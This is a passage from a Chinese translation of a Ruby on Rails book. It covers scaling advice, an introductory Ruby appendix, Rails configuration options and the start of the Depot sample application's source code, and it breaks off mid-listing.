有时你别无选择。你必须部署到现有环境中。如果它是Apache或另一个支持Fast CGI的服务器，你可以利用其现有基础设施。但有时，使用反向代理更简单。当然，这不是最佳的解决方案，但在混合环境中它工作得很好。

### 24.4 在同一台机器上托管多个应用程序

Rails使得构建应用程序变得如此简单，以至于你会构建很多应用程序。你会希望支持将多个应用程序放在同一台服务器上。

- 虚拟主机。
- 命名空间重写（例如，`server.com/appname/:controller/:action/..`）。

### 24.5 水平扩展


当你开始感觉你的生产服务器力不从心时，就该考虑扩展了。嗯，实际上在大多数环境中，你需要提前考虑扩展，但得益于 Rails 的无共享架构，它使得后续扩展变得相当容易。当然，这假设你的应用程序的其他部分也设计为无共享。是这样吧？

现在，是时候制定扩展策略了。有几种方法可以做到这一点——你选择的方法实际上取决于你的应用程序类型。但是，无论你的情况如何，通常都有第一步：将数据库移动到一台独立的机器上。

第二步通常涉及添加更多机器来处理前端请求。除非你在数据库查询方面做了非常糟糕的事情，否则它在早期不太可能成为你应用程序的瓶颈。相反，你需要为等式中的 Rails 部分提供更多的计算能力。建议：在数据库前面进行横向扩展，让多台 Web 层机器与一个数据库通信。

当然，使用多台前端机器时，你首先要处理的是会话对象。你可以将其存储在数据库中。稍后，当这变得负担过重时，可以使用像`memcached`这样的工具。

Rails 架构在扩展方面的最终逻辑终点是使用一个数据库机器集群和一个前端机器集群，形成一个 n 对 n 的配置。是的，你可以通过`MySQL Cluster`实现这一点。

但在你梦想拥有一整排数据中心的服务器之前，请从单台机器开始。你可能会惊讶，仅仅通过优化数据库访问代码和勤勉地使用缓存，就能支持相当大的流量。

# 第四部分

# 附录

## 附录 A：Ruby 简介

Ruby 是一门相当简单的语言。即便如此，要在这样一个简短的附录中充分介绍它是不太可能的。相反，我们希望能解释足够多的 Ruby，以便书中的示例能让你理解。本章大量借鉴了 *Programming Ruby* [TFH05] 第 2 章的内容。<sup>1</sup>

### A.1 Ruby 是一种面向对象的语言

你在 Ruby 中操作的每样东西都是一个对象，这些操作的结果本身也是对象。

当你编写面向对象的代码时，你通常是在为现实世界中的概念建模。通常在这个建模过程中，你会发现需要表示事物的类别。在在线商店中，“行项目”这个概念可能就是这样一个类别。在 Ruby 中，你会定义一个`类`来表示每个这样的类别。一个类是状态（例如，数量和产品 ID）和使用该状态的方法（可能是一个计算行项目总成本的方法）的组合。我们将在第 533 页展示如何创建类。

一旦你定义了这些类，你通常会想要创建它们的`实例`。例如，在商店中，当 Fred 订购一本书和当 Wilma 订购一份 PDF 时，你会有单独的`LineItem`实例。`对象`这个词与`类实例`可以互换使用（并且因为我们是懒惰的打字员，我们将使用`对象`这个词）。

> <sup>1</sup> 冒着严重自私自利的风险，我们建议学习 Ruby 的最佳方式，以及 Ruby 类、模块和库的最佳参考，是 *Programming Ruby*（也称为 PickAxe 书）。如果你查看本书的封底，你会发现如何以折扣价获取 PickAxe 的说明。欢迎加入 Ruby 社区。

对象通过调用`构造函数`来创建，构造函数是与类关联的特殊方法。标准构造函数名为`new()`。因此，给定一个名为`LineItem`的类，你可以按照如下方式创建订单项对象。

```ruby
line_item_one = LineItem.new
line_item_one.quantity = 1
line_item_one.sku       = "AUTO_B_00"

line_item_two = LineItem.new
line_item_two.quantity = 2
line_item_two.sku       = "RUBY_P_00"
```

这些实例都源自同一个类，但它们拥有独特的特性。具体来说，每个实例都有自己的状态，内部存储在`实例变量`中。例如，我们的每个订单项可能都有一个存储数量的实例变量。

在每个类中，你可以定义`实例方法`。每个方法都是一块功能代码，可以从类内部调用，也可以（根据可访问性约束）从类外部调用。这些实例方法可以访问对象的实例变量，从而访问对象的状态。

方法通过向对象发送消息来调用。消息包含方法的名称以及方法可能需要的任何参数。当对象收到消息时，它会在自己的类中查找相应的方法。

这种基于方法和消息的机制听起来可能很复杂，但实际上非常自然。让我们来看一些方法调用的例子。

```ruby
"dave".length
line_item_one.quantity
-1942.abs
cart.add_line_item(next_purchase)
```

这里，点号前面的部分称为`接收者`，点号后面的部分是要调用的方法。第一个例子询问字符串的长度（4）。第二个例子要求订单项对象返回其数量。第三行让一个数字计算其绝对值。最后一行展示了如何将一个订单项添加到购物车中。

这种将方法调用表达为消息形式的构想源自 Smalltalk。

### A.2 Ruby 命名规范

局部变量、方法参数和方法名都应以小写字母或下划线开头：`order`、`line_item`和`xr2000`都是有效的。实例变量（我们将在第 534 页讨论）以“at”符号（`@`）开头，例如`@quantity`和`@product_id`。Ruby 的惯例是在多词方法或变量名中使用下划线分隔单词（因此`line_item`优于`lineItem`）。

类名、模块名和常量必须以大写字母开头。按照惯例，它们使用首字母大写而不是下划线来区分名称中的单词。类名类似`Object`、`PurchaseOrder`和`LineItem`。

Rails 大量使用符号。符号看起来像变量名，但以冒号为前缀。符号的例子包括`:action`、`:line_items`和`:id`。你可以将符号视为神奇地转换成常量的字符串字面量。或者，你也可以将冒号理解为“名为……的事物”，因此`:id`就是“名为 id 的事物”。

Rails 使用符号来标识事物。特别是在命名方法参数和在哈希中查找事物时用作键。例如：

```ruby
redirect_to :action => "edit", :id => params[:id]
```

### A.3 方法

让我们编写一个返回愉快、个性化问候语的方法。我们将调用该方法几次。

```ruby
def say_goodnight(name)
  result = "Good night, " + name
  return result
end

# Time for bed...
puts say_goodnight("Mary-Ellen")
puts say_goodnight("John-Boy")
```

只要将每条语句放在单独的行中，就不需要在语句末尾加分号。Ruby 注释以`#`字符开头，一直延续到行尾。缩进没有特殊意义（但两字符缩进是事实上的 Ruby 标准）。

方法使用关键字`def`定义，后跟方法名（在本例中是`say_goodnight`）和括号中的方法参数。Ruby 不使用花括号来分隔复合语句和定义（如方法和类）的主体。相反，你只需用关键字`end`结束主体。方法主体的第一行将字符串字面量`"Good night, "`和参数名连接起来，并将结果赋值给局部变量`result`。下一行将该结果返回给调用者。注意，我们不必声明变量`result`；它在赋值时自动创建。

定义方法后，我们调用了它两次。在这两种情况下，我们都将结果传递给`puts()`方法，该方法将其参数输出到控制台，后跟一个换行符（进入下一行输出）。如果我们把这个程序存储在文件`hello.rb`中，我们可以这样运行它。

```shell
work> ruby hello.rb
Good night, Mary-Ellen
Good night, John-Boy
```

`puts say_goodnight("John-Boy")`这一行包含两个方法调用，一个调用`say_goodnight()`方法，另一个调用`puts()`方法。为什么一个方法调用带有参数括号，而另一个没有？在这种情况下，这纯粹是个人喜好。以下两行是等价的。

```ruby
puts say_goodnight("John-Boy")
puts(say_goodnight("John-Boy"))
```

在 Rails 应用程序中，你会发现大多数涉及更大表达式的调用会使用括号，而那些看起来更像命令或声明的调用则往往不使用。

这个示例还展示了一些 Ruby 字符串对象。创建字符串对象的一种方法是使用`字符串字面量`：用单引号或双引号括起来的字符序列。这两种形式的区别在于 Ruby 在构造字面量时对字符串进行的处理量。对于单引号的情况，Ruby 做的处理很少。除了一些例外，你输入到单引号字符串字面量中的内容就是字符串的值。

对于双引号的情况，Ruby 做的处理更多。首先，它会查找`替换`——以反斜杠字符开头的序列——并用一些二进制值替换它们。其中最常见的是`\n`，它会被替换为换行符。当你向控制台写入包含换行符的字符串时，`\n`会强制换行。

Ruby 对双引号字符串做的第二件事是`表达式插值`。在字符串中，序列`#{expression}`会被`expression`的值替换。我们可以用这个特性来重写我们之前的方法。

```ruby
def say_goodnight(name)
  result = "Good night, #{name}"
  return result
end
puts say_goodnight('Pa')
```

当 Ruby 构造这个字符串对象时，它会查看`name`的当前值并将其替换到字符串中。在`#{...}`结构中允许使用任意复杂的表达式。这里我们调用了为所有字符串定义的`capitalize()`方法，以首字母大写的形式输出我们的参数。

```ruby
def say_goodnight(name)
  result = "Good night, #{name.capitalize}"
  return result
end
puts say_goodnight('uncle')
```

最后，我们可以简化这个方法。Ruby 方法返回的值是最后一个表达式求值的结果，因此我们可以完全去掉临时变量和`return`语句。

```ruby
def say_goodnight(name)
  "Good night, #{name.capitalize}"
end
puts say_goodnight('ma')
```

### A.4 类

这是一个 Ruby 类定义。

```ruby
class Order < ActiveRecord::Base
  has_many :line_items

  def self.find_all_unpaid
    find(:all, 'paid = 0')
  end

  def total
    sum = 0
    line_items.each {|li| sum += li.total}
  end
end
```

类定义以关键字`class`开头，后跟类名（必须以大写字母开头）。这个`Order`类被定义为`ActiveRecord`模块内`Base`类的子类。

Rails 大量使用类级别的声明。这里的`has_many`是 Active Record 定义的一个方法。它在`Order`类定义时被调用。通常这类方法对类做出断言，因此在本书中我们称它们为`声明`。

在类主体内，你可以定义类方法和实例方法。方法名前加上`self.`（如我们在第 5 行所做的那样）会使其成为类方法：它可以在类本身上调用。在本例中，我们可以在应用程序的任何地方进行以下调用。

```ruby
to_collect = Order.find_all_unpaid
```

常规方法定义创建`实例方法`（如第 9 行的`total`定义）。这些方法在类的对象上调用。在下面的示例中，变量`order`引用一个`Order`对象。我们在前面的类定义中定义了`total()`方法。

```ruby
puts "The total is #{order.total}"
```

注意`find_all_unpaid()`和`total()`方法之间的区别。第一个不是特定于某个订单的，因此我们在类级别定义它，并通过类本身调用它。第二个应用于一个订单，因此我们将其定义为实例方法并在特定的订单对象上调用它。

类的对象在`实例变量`中保存其状态。这些变量的名称都以`@`开头，对类的所有实例方法都可用。每个对象都有自己的实例变量集。

```ruby
class Greeter
  def initialize(name)
    @name = name
  end

  def say(phrase)
    puts "#{phrase}, #{@name}"
  end
end

g1 = Greeter.new("Fred")
g2 = Greeter.new("Wilma")

g1.say("Hello")    # => Hello, Fred
g2.say("Hi")       # => Hi, Wilma
```

实例变量不能在类外部直接访问。为了使其可用，请编写返回其值的方法。

```ruby
class Greeter
  def initialize(name)
    @name = name
  end
```

#### Ruby 访问器方法与可见性

Ruby 提供了便捷方法来为你编写这些访问器方法（这对于厌倦了编写所有 getter 和 setter 的人来说是个好消息）。

```ruby
class Greeter
  def name
    @name
  end

  def name=(new_name)
    @name = new_name
  end
end

g = Greeter.new("Barney")
puts g.name    # => Barney
g.name = "Betty"
puts g.name    # => Betty
```

```ruby
class Greeter
  attr_accessor :name    # 创建读取和写入方法
  attr_reader   :greeting # 仅创建读取方法
  attr_writer   :age     # 仅创建写入方法
end
```

#### 私有和受保护方法

一个类的实例方法默认是公共的；任何人都可以调用它们。你可能想要为那些只打算由其他类实例方法使用的方法重写此行为。

```ruby
class MyClass
  def m1    # 此方法是公共的
  end

  protected

  def m2    # 此方法是受保护的
  end

  private

  def m3    # 此方法是私有的
  end
end
```

`private`指令是最严格的；私有方法只能从同一个实例内部调用。受保护方法可以在同一个实例内调用，也可以被同一类及其子类的其他实例调用。

### A.5 模块

模块与类相似，因为它们包含一组方法、常量以及其他模块和类定义。与类不同，你不能基于模块创建对象。

模块有两个目的。首先，它们充当命名空间，让你定义的方法名称不会与其他地方定义的方法冲突。其次，它们允许你在类之间共享功能——如果一个类`混入`了一个模块，那么该模块的实例方法就变得可用，就好像它们是在该类中定义的一样。多个类可以混入同一个模块，共享模块的功能而无需使用继承。你也可以将多个模块混入到一个类中。

Rails 使用模块来实现辅助方法。它会自动将辅助模块混入到相应的视图模板中。例如，如果你想编写一个可以从`store`控制器调用的视图中调用的辅助方法，你可以在`app/helpers`目录下的`store_helper.rb`文件中定义以下模块。

```ruby
module StoreHelper
  def capitalize_words(string)
    string.gsub(/\b\w/) { $&.upcase }
  end
end
```

### A.6 数组和哈希

Ruby 的数组和哈希是索引集合。两者都存储对象集合，可以通过键来访问。对于数组，键是整数，而哈希支持任何对象作为键。数组和哈希都会根据需要增长以容纳新元素。访问数组元素更高效，但哈希提供了更大的灵活性。任何特定的数组或哈希都可以容纳不同类型的对象；例如，你可以有一个包含整数、字符串和浮点数的数组。

你可以使用`数组字面量`——一组用方括号括起来的元素——来创建和初始化一个新的数组对象。给定一个数组对象，你可以通过在方括号之间提供索引来访问单个元素，如下一个示例所示。Ruby 数组索引从零开始。

```ruby
a = [ 1, 'cat', 3.14 ]  # 包含三个元素的数组
a[0]                    # 访问第一个元素 (1)
a[2] = nil              # 设置第三个元素
                        # 数组现在为 [ 1, 'cat', nil ]
```

你可能已经注意到在这个示例中我们使用了特殊值`nil`。在许多语言中，`nil`（或`null`）的概念意味着“没有对象”。在 Ruby 中，情况并非如此；`nil`是一个对象，就像其他任何对象一样，只是它恰好代表“无”。

数组对象的一个常用方法是`<<`，它将一个值追加到其接收者。

```ruby
ages = []
for person in @people
    ages << person.age
end
```

Ruby 有一个创建单词数组的快捷方式。

```ruby
a = [ 'ant', 'bee', 'cat', 'dog', 'elk' ]
# 这是等效的：
a = %w{ ant bee cat dog elk }
```

Ruby 哈希与数组类似。哈希字面量使用花括号而不是方括号。字面量必须为每个条目提供两个对象：一个用于键，另一个用于值。例如，你可能想将乐器映射到它们在管弦乐队中的部分。

```ruby
inst_section = {
    :cello     => 'string',
    :clarinet  => 'woodwind',
    :drum      => 'percussion',
    :oboe      => 'woodwind',
    :trumpet   => 'brass',
    :violin    => 'string'
}
```


`=>` 左边的是键，右边的是对应的值。特定哈希中的键必须是唯一的——你不能有两个对应 `:drum` 的条目。哈希中的键和值可以是任意对象——你可以有值为数组、其他哈希等的哈希。在 Rails 中，哈希通常使用符号作为键。许多 Rails 哈希被巧妙地修改过，这样在插入和查找值时，你可以互换地使用字符串或符号作为键。

哈希使用与数组相同的方括号表示法进行索引。

```ruby
inst_section[:oboe]     #=> 'woodwind'
inst_section[:cello]    #=> 'string'
inst_section[:bassoon]  #=> nil
```

如最后一个示例所示，当哈希被一个它不包含的键索引时，它会返回 `nil`。通常这很方便，因为 `nil` 在条件表达式中用作假值。

### 哈希和参数列表

你可以在方法调用中将哈希作为参数传递。Ruby 允许你省略花括号，但前提是哈希是调用的最后一个参数。Rails 广泛使用了这一特性。以下代码片段显示了一个双元素哈希被传递给 `redirect_to()` 方法。实际上，你可以忽略它是一个哈希的事实，假装 Ruby 有关键字参数。

```ruby
redirect_to :action => 'show', :id => product.id
```

## A.7 控制结构

Ruby 拥有所有常见的控制结构，如 `if` 语句和 `while` 循环。Java、C 和 Perl 程序员很可能会因为这些语句主体周围缺少花括号而感到困惑。相反，Ruby 使用关键字 `end` 来表示主体的结束。

```ruby
if count > 10
    puts "Try again"
elsif tries == 3
    puts "You lose"
else
    puts "Enter a number"
end
```

类似地，`while` 语句也以 `end` 结束。

```ruby
while weight < 100 and num_pallets <= 30
    pallet = next_pallet()
    weight += pallet.weight
    num_pallets += 1
end
```

Ruby 的*语句修饰符*在 `if` 或 `while` 语句的主体只是一个单表达式时非常有用。只需写出表达式，然后跟上 `if` 或 `while` 以及条件即可。

```ruby
puts "Danger, Will Robinson" if radiation > 3000
```

## A.8 正则表达式

正则表达式是在字符串中指定要匹配的字符*模式*的一种方式。在 Ruby 中，你通常通过编写 `/pattern/` 或 `%r{pattern}` 来创建正则表达式。

例如，你可以编写一个模式来匹配包含文本 *Perl* 或文本 *Python* 的字符串，使用正则表达式 `/Perl|Python/`。

正斜杠界定了模式，该模式由我们要匹配的两个事物组成，由竖线（`|`）分隔。这个竖线字符表示“要么右边的东西，要么左边的东西”，在这种情况下是 *Perl* 或 *Python*。你可以在模式中使用括号，就像在算术表达式中一样，所以你也可以将这个模式写成 `/P(erl|ython)/`。程序通常使用 `=~` 匹配运算符来测试字符串是否匹配正则表达式。

```ruby
if line =~ /P(erl|ython)/
  puts "There seems to be a perturbation in the force"
end
```

你可以在模式中指定*重复*。`/ab+c/` 匹配一个包含一个 *a* 后跟一个或多个 *b*，再后跟一个 *c* 的字符串。将加号改为星号，`/ab*c/` 创建的正则表达式匹配一个 *a*、零个或多个 *b*，以及一个 *c*。

Ruby 的正则表达式是一个深奥而复杂的主题；本节只是浅尝辄止。完整的讨论请参阅《PickAxe Book》。

## A.9 代码块和迭代器

代码块只是花括号或 `do...end` 之间的代码块。一个常见的约定是人们对单行块使用花括号，对多行块使用 `do/end`。

```ruby
{ puts "Hello" }          # 这是一个代码块

do
  club.enroll(person)     # 这也是
  person.socialize
end
```

代码块唯一可以出现的地方是在方法调用之后；将块的开头放在包含方法调用的源代码行的末尾。例如，在下面的代码中，包含 `puts "Hi"` 的代码块与 `greet()` 方法的调用相关联。

```ruby
greet { puts "Hi" }
```

如果方法有参数，它们出现在块之前。

```ruby
verbose_greet("Dave", "loyal customer") { puts "Hi" }
```

方法可以使用 Ruby 的 `yield` 语句调用关联的代码块一次或多次。你可以将 `yield` 视为一种类似于方法调用的东西，它调用包含该 `yield` 的方法所关联的代码块。你可以通过给 `yield` 参数来向代码块传递值。

```ruby
def greet
  puts "Hello, #{yield}"
end

greet { "world" }
```

在代码块内，你需要将接收这些参数的参数名列表在竖线（`|`）之间列出。

代码块在 Ruby 应用中随处可见。通常它们与迭代器结合使用：迭代器是一种从某种集合（例如数组）中返回连续元素的方法。

```ruby
animals = %w( ant bee cat dog elk )     # create an array
animals.each {|animal| puts animal }    # iterate over the contents
```

每个整数 `N` 都实现了一个 `times()` 方法，该方法会调用关联的代码块 `N` 次。

```ruby
3.times { print "Ho! " }     #=>  Ho! Ho! Ho!
```

## A.10 异常

异常是对象（属于 `Exception` 类或其子类）。`raise` 方法会引发一个异常。这会中断代码的正常执行流程。相反，Ruby 会沿着调用栈回溯查找能够处理该异常的代码。

异常通过将代码包裹在 `begin` 和 `end` 关键字之间，并使用 `rescue` 子句来拦截特定类型的异常来处理。

```ruby
begin
    content = load_blog_data(file_name)
rescue BlogDataNotFound
    STDERR.puts "File #{file_name} not found"
rescue BlogDataFormatError
    STDERR.puts "Invalid blog data in #{file_name}"
rescue Exception => exc
    STDERR.puts "General error loading #{file_name}: #{exc.message}"
end
```

## A.11 序列化对象

Ruby 可以将一个对象转换成一系列字节流，存储在应用程序外部。这个过程称为*序列化*。这个保存的对象之后可以被应用程序的另一个实例（或一个完全独立的应用程序）读取，并可以重新构建成最初保存的对象副本。

使用序列化时有两个潜在问题。首先，某些对象无法被转储：如果要转储的对象包含绑定、过程或方法对象、`IO` 类的实例、单例对象，或者你试图转储匿名类或模块，将会引发一个 `TypeError`。

其次，当你加载一个序列化的对象时，Ruby 需要知道该对象类（以及它包含的所有对象的类）的定义。

Rails 使用序列化来存储会话数据。如果你依赖 Rails 动态加载类，那么在重构会话数据时，某个特定的类可能尚未被定义。因此，你需要在控制器中使用模型声明来列出所有被序列化的模型。这会预先加载必要的类，以确保序列化正常工作。

## A.12 交互式 Ruby

`irb`——交互式 Ruby——是交互式执行 Ruby 的首选工具。`irb` 是一个 Ruby Shell，具备命令行历史、行编辑功能和作业控制。你可以从命令行运行 `irb`。启动后，只需输入 Ruby 代码。`irb` 会在求值每个表达式时显示其值。

```bash
% irb
irb(main):001:0> def sum(n1, n2)
irb(main):002:1>     n1 + n2
irb(main):003:1> end
=> nil
irb(main):004:0> sum(3, 4)
=> 7
irb(main):005:0> sum("cat", "dog")
=> "catdog"
```

你可以在 Rails 应用程序上运行 `irb`，这让你可以试验方法（有时还能修复对数据库的误操作）。不过，设置完整的 Rails 环境比较棘手。与其手动操作，不如使用 `scripts/console` 封装脚本，如第 237 页所示。

## A.13 Ruby 惯用法

Ruby 是一种适合惯用法使用的语言。网络上有很多关于 Ruby 惯用法和 Ruby 陷阱的优质资源。这里仅列举几个。

- <http://www.glue.umd.edu/~billtj/ruby.html>
- <http://www.rubygarden.org/faq>
- <http://en.wikipedia.org/wiki/Ruby_programming_language>
- <http://www.zenspider.com/Languages/Ruby/QuickRef.html>

本节展示了我们在本书中使用的一些常见 Ruby 惯用法。

### 诸如 `empty!` 和 `empty?` 之类的方法

Ruby 方法名可以以感叹号（称为 bang 方法）或问号（称为谓词方法）结尾。Bang 方法通常对接收者执行某些破坏性操作。谓词方法根据某些条件返回 `true` 或 `false`。

### `a || b`

表达式 `a || b` 会求值 `a`。如果其值既不是 `false` 也不是 `nil`，则求值停止，表达式返回 `a`。否则，该语句返回 `b`。这是在第一个值未设置时返回默认值的常用方法。

### `a ||= b`

赋值语句支持一组快捷方式：`a op= b` 等同于 `a = a op b`。这适用于大多数运算符。

```ruby
count += 1           # same as count = count + 1
price *= discount    #           price = price * discount
count ||= 0         #           count = count || 0
```

因此，`count ||= 0` 会在 `count` 尚无值时将其赋值为 0。

### `obj = self.new`

（这个惯用法有些高级，可以安全跳过。）

有时一个类方法需要创建该类的一个实例。

```ruby
class Person < ActiveRecord::Base
  def self.for_dave
    Person.new(:name => 'Dave')
  end
end
```

这可以正常工作，返回一个新的 `Person` 对象。但后来，有人可能会创建我们类的子类。

```ruby
class Employee < Person
  # ...
end

dave = Employee.for_dave  # returns a Person
```

`for_dave()` 方法被硬编码为返回 `Person` 对象，因此 `Employee.for_dave` 返回的也是 `Person`。使用 `self.new` 则返回接收者类 `Employee` 的一个新对象。

```ruby
require File.dirname(__FILE__) + '/../test_helper'
```

Ruby 的 `require` 方法将外部源文件加载到我们的应用程序中。这用于包含我们应用程序依赖的库代码和类。在正常使用中，Ruby 通过搜索 `LOAD_PATH` 中的目录列表来查找这些文件。

有时我们需要明确指定要包含哪个文件。我们可以通过给 `require` 一个完整的文件系统路径来实现。问题在于，我们不知道那个路径会是什么——我们的用户可能将我们的代码安装在任何地方。

无论我们的应用程序最终安装在何处，执行 `require` 的文件与目标文件之间的相对路径是相同的。知道这一点，我们可以通过获取执行 `require` 的文件的绝对路径（在特殊变量 `__FILE__` 中可用），去除所有内容只保留目录名，然后附加到目标文件的相对路径，来构建目标文件的绝对路径。

## A.14 RDoc 文档

RDoc 是一个用于 Ruby 源代码的文档系统。就像 JavaDoc 一样，RDoc 接收一组源文件，并利用源代码中的语法信息和注释块中的文本生成 HTML 文档。与 JavaDoc 不同的是，即使源代码中没有注释，RDoc 也能生成相当好的内容。在为应用程序编写源代码时编写 RDoc 文档相当轻松。RDoc 在《PickAxe》的第 16 章中有描述。

RDoc 用于为 Ruby 的内置库和标准库编写文档。根据你的 Ruby 安装方式，你可能可以使用 `ri` 命令来访问文档。

```bash
dave> ri String.capitalize
------------------------------------- String#capitalize
    str.capitalize    => new_str
-------------------------------------
Returns a copy of str with the first character converted to
uppercase and the remainder to lowercase.

    "hello".capitalize    #=> "Hello"
    "HELLO".capitalize    #=> "Hello"
    "123ABC".capitalize   #=> "123abc"
```

如果你使用 RubyGems 安装 Rails，可以通过运行 `gem_server`，然后将浏览器指向 URL <http://localhost:8808> 来访问 Rails API 文档。

`rake appdoc` 命令为 Rails 项目创建 HTML 文档，并将其放在 `doc/app` 目录中。

## 附录 B：配置参数

如第 232 页所述，可以通过在全局 `environment.rb` 文件或 `config/environments` 目录中的特定环境文件之一设置选项来配置 Rails 的各个组件。

### B.1 Active Record 配置

```ruby
ActiveRecord::Base.logger = logger
```

接受一个日志记录器对象。这在内部用于记录数据库活动。它也可供需要记录日志的应用程序使用。

```ruby
ActiveRecord::Base.primary_key_prefix_type = option
```

如果 `option` 为 `nil`，则每个表的默认主键列是 `id`。如果为 `:table_name`，则表名将被添加为前缀。通过将选项设置为 `:table_name_with_underscore` 值，可以在表名和 `id` 部分之间添加下划线。

```ruby
ActiveRecord::Base.table_name_prefix = "prefix"
```

生成表名时，在给定字符串前添加前缀。例如，如果模型名称是 `User`，前缀字符串是 `"myapp-"`，Rails 将查找表 `myapp-users`。如果你需要在不同应用程序之间共享数据库，或者需要在同一个数据库中进行开发和测试，这可能很有用。

```ruby
ActiveRecord::Base.table_name_suffix = "suffix"
```

生成表名时，在给定字符串后追加后缀。

```ruby
ActiveRecord::Base.pluralize_table_names = true | false
```

如果为 `false`，在创建相应的表名时，类名将不会被复数化。

```ruby
ActiveRecord::Base.colorize_logging = true | false
```

默认情况下，Active Record 的日志消息使用 ANSI 控制序列。在支持这些序列的终端应用程序中查看时，某些行会被着色。将此选项设置为 `false` 可移除此着色功能。

```ruby
ActiveRecord::Base.default_timezone = :local | :utc
```

设置为 `:utc` 可使从数据库加载和保存到数据库的日期与时间被视为 UTC 时间。

```ruby
ActiveRecord::Locking.lock_optimistically = true | false
```

如果为 `false`，则禁用乐观锁定。（参见第 16.5 节“乐观锁定”，第 274 页。）

```ruby
ActiveRecord::Timestamp.record_timestamps = true | false
```

设置为 `false` 可禁用自动更新 `created_at`、`created_on`、`updated_at` 和 `updated_on` 列。相关内容在第 334 页有描述。

```ruby
ActiveRecord::Errors.default_error_messages = hash
```

一个包含标准验证失败消息的哈希表。你可以用自己的消息替换它们，可能是为了国际化目的。

默认的消息集合是


```ruby
ActiveRecord::Errors.default_error_messages = {
    :inclusion => "is not included in the list",
    :exclusion => "is reserved",
    :invalid => "is invalid",
    :confirmation => "doesn't match confirmation",
    :accepted  => "must be accepted",
    :empty => "can't be empty",
    :too_long => "is too long (max is %d characters)",
    :too_short => "is too short (min is %d characters)",
    :wrong_length => "is the wrong length (should be %d characters)",
    :taken => "has already been taken",
    :not_a_number => "is not a number",
}
```

## B.2 Action Pack 配置

`ActionController::Base.asset_host = url`

设置使用 asset 辅助标签链接的样式表和图像资源的主机和/或路径。

```ruby
ActionController::Base.asset_host = "http://media.my.url"
```

`ActionController::Base.view_controller_internals = true | false`

默认情况下，模板可以访问控制器的集合 request、response、session 和 template。将此选项设置为 false 可移除此访问权限。

```ruby
ActionController::Base.consider_all_requests_local = true | false
```

在生产环境中设置为 false 可阻止用户看到堆栈跟踪信息。这在第 ?? 页的 `deploy.local.request` 中有更深入的讨论。

```ruby
ActionController::Base.debug_routes = true | false
```

如果为 true，当路由组件无法解析传入的 URL 时，会提供详细信息。在生产环境中应关闭此选项。

`ActionController::Base.logger = logger`

设置此控制器使用的日志记录器。日志记录器对象也可供应用程序代码使用。

```ruby
ActionController::Base.template_root = dir
```

在此目录下查找模板文件。默认值为 app/views。

```ruby
ActionController::Base.template_class = class
```

默认值为 `ActionView::Base`。你可能不需要更改此设置。

```ruby
ActionController::Base.ignore_missing_templates = false | true
```

如果为 true，则在找不到模板时不会引发错误。

```ruby
ActionController::Base.perform_caching = true | false
```

设置为 false 可禁用所有缓存。

```ruby
ActionController::Base.page_cache_directory = dir
```

缓存文件的存储位置。必须是你的 Web 服务器的文档根目录。

```ruby
ActionController::Base.page_cache_extension = string
```

覆盖用于缓存文件的默认 `.html` 扩展名。

```ruby
ActionController::Base.fragment_cache_store = caching_class
```

确定用于存储缓存片段的机制。片段缓存在第 447 页有讨论。

```ruby
ActionView::Base.cache_template_loading = false | true
```

开启此项可缓存模板的渲染，从而提高性能。但是，如果你更改了磁盘上的模板，则需要重启服务器。

```ruby
ActionView::Base.field_error_proc = proc
```

此过程（proc）用于包裹验证失败的表单字段。默认值为：

```ruby
Proc.new do |html_tag, instance|
  %{<div class="fieldWithErrors">#{html_tag}</div>}
end
```

## B.3 Action Mailer 配置

这些设置在第 21.1 节“电子邮件配置”（第 479 页）中有描述。

```ruby
ActionMailer::Base.template_root = directory
ActionMailer::Base.logger = logger object
ActionMailer::Base.server_settings = hash
ActionMailer::Base.raise_delivery_errors = true | false
ActionMailer::Base.delivery_method = :smtp | :sendmail | :test
ActionMailer::Base.perform_deliveries = true | false
ActionMailer::Base.default_charset = "string"
```

## B.4 测试用例配置

以下选项可以全局设置，但更常见的是在特定测试用例的主体内设置。

```ruby
### 全局设置
Test::Unit::TestCase.use_transactional_fixtures = true

### 局部设置
class WibbleTest < Test::Unit::TestCase
  self.use_transactional_fixtures = true
  # ...
```

- `use_transactional_fixtures = true | false`

  > 如果为 true，则在每次测试结束时数据库的更改将被回滚（参见第 ?? 页的 `sec.transactional.fixtures`）。

- `use_instantiated_fixtures = true | false | :no_instances`

  > 将此选项设置为 false 可禁用自动将夹具数据加载到实例变量中。将其设置为 `:no_instances` 会创建实例变量但不填充它。

- `pre_loaded_fixtures = false | true`

  > 如果为 true，则测试用例假定在测试运行之前夹具数据已加载到数据库中。与事务夹具一起使用可加快测试运行速度。

## 附录 C：源代码

本附录包含了我们为最终的 Depot 应用程序创建的文件的完整列表，以及我们修改过的生成文件。

所有代码均可从我们的网站下载：

- `http://pragmaticprogrammer.com/titles/rails2/code.html`

## C.1 完整的 Depot 应用程序

### 数据库配置与迁移

下载 `depot_r/config/database.yml`

```yaml
development:
  adapter: mysql
  database: depot_development
  username: root
  password:
  host: localhost

test:
  adapter: mysql
  database: depot_test
  username: root
  password:
  host: localhost

production:
  adapter: mysql
  database: depot_production
  username: root
  password:
  host: localhost
```

下载 `depot_r/db/migrate/001_create_products.rb`

```ruby
class CreateProducts < ActiveRecord::Migration
  def self.up
    create_table :products do |t|
      t.column :title,       :string
      t.column :description, :text
      t.column :image_url,   :string
    end
  end

  def self.down
    drop_table :products
  end
end
```

下载 `depot_r/db/migrate/002_add_price.rb`

```ruby
class AddPrice < ActiveRecord::Migration
  def self.up
    add_column :products, :price, :integer, :default => 0
  end

  def self.down
    remove_column :products, :price
  end
end
```

下载 `depot_r/db/migrate/003_add_test_data.rb`

```ruby
class AddTestData < ActiveRecord::Migration
  def self.up
    Product.create(:title => 'Pragmatic Project Automation',
      :description =>
      %{<p>
        <em>Pragmatic Project Automation</em> shows you how to improve the
        consistency <b>and</b> repeatability of your project's procedures using
        automation to reduce risk <b>and</b> errors.
      </p>
      <p>
        Simply put, we're going to put this thing called a computer to work
        <b>for</b> you doing the mundane (but important) project stuff. That means
        you'll have more time <b>and</b> energy to <b>do</b> the really
        exciting--<b>and</b> difficult--stuff, like writing quality code.
      </p>},
      :image_url =>    '/images/auto.jpg',
      :price => 2995)

    Product.create(:title => 'Pragmatic Version Control',
      :description =>
      %{<p>
        This book is a recipe-based approach to using Subversion that will
        get you up <b>and</b> running quickly--and correctly. All projects need version control: it's a foundational piece of any project's infrastructure. Yet half of all project teams in the U.S. don't use any version control at all. Many others don't use it well, and end up experiencing time-consuming problems.
      </p>},
      :image_url => '/images/svn.jpg',
      :price => 2850)

    # . . .

    Product.create(:title => 'Pragmatic Unit Testing (C#)',
      :description =>
      %{<p>
